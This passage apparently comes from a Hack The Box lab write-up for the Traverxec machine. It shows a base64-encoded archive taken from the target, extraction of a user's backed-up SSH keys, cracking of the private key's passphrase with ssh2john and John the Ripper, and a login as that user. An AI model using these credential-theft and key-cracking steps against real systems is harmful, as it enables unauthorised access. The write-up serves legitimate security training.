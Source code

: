 ```bash
DosbDNdsi2QVw6lUdlFiyK9blGcUvBAPwjGoEaA5dhC6k64xDKIOGm4hEDv04mzlN38RJ+esB1kn
0ZlsipmJzcY4uyCOP+K8wS8YDF6BQVqhaQuUxntmugM56hklYxQso4sy7ElUU3p4iBfras5rLybx
5lC2Kva9vpWRcUxzBGDPcz8wmSRaFsVfigB1uUfrGJB8B41Dtq5KMm2yhzhxcAYJl5fz4xQiRDP5
1jEzhXMFQEo6ihUnhNc0R25hTn0Qpf4wByp8N/mdGQRmPmmLF5bBI6jKiy7mLbI76XmW2CfN+IBq
mVm0rRDvU9dVihl7v0I1RmcWK2ZCYZe0KSRBVnCt/JijvovyLdiQBDe6AG6cgjoBPnvEukh3ibGF
d+Y2jFh8u/ZMm/q5cCXEcCHTMZrciH6sMoRFFYj3mxCr8zoz8w3XS6A8O0y4xPKsbNzRZH3vVBds
Mp0nVIv0rOC3OtfgTH8VToU/eXl+JhaeR5+Ja+pwZ885cLEgqV9sOL2z980ytld9cr8/naK4ronU
pOjDYVkbMcz1NuG0M9zREGPuUJfHsEa6y9kAKjiysZfjPJ+a2baPreUGga1d1TG35A7mL4R9SuII
FBvJDLdSdqgqkSnIi8wLRtDTBHhZ0NzFK+hKjaPxgW7LyAY1d3hic2jVzrrgBBD3sknSz4fT3irm
6Zqg5SFeLGgaD67A12wlmPwvZ7E/O8v+9/LL9d+P3Rx/vxj/0fmPwL7Uf19+F7zrvz+A9/nvr33+
e/PmzZs3b968efPmzZs3b968efPmzf8vfweR13qfACgAAA==
```

![transfer gz archive into my machine using base64](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/traverxec/b64-gz.png)

### backup-ssh-identity-files.tgz

```bash
$ cp ../backup-ssh-identity-files.tgz .
$ tar xvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

Obviously the RSA key is encrypted:

![encrypted RSA key](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/traverxec/enc.png)

Therefore, we have to use `ssh2john`

### ssh2john

```bash
$ /usr/share/john/ssh2john.py home/david/.ssh/id_rsa > david_rsa.john
$ john david_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (home/david/.ssh/id_rsa)
1g 0:00:00:02 DONE (2021-01-02 14:15) 0.4878g/s 6995Kp/s 6995Kc/s 6995KC/s  0125457423 ..*7¡Vamos!
Session completed
```

The password of `id_rsa` is `hunter`. We can now log in as **david**:

![ssh david](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/traverxec/ssh-david.png)
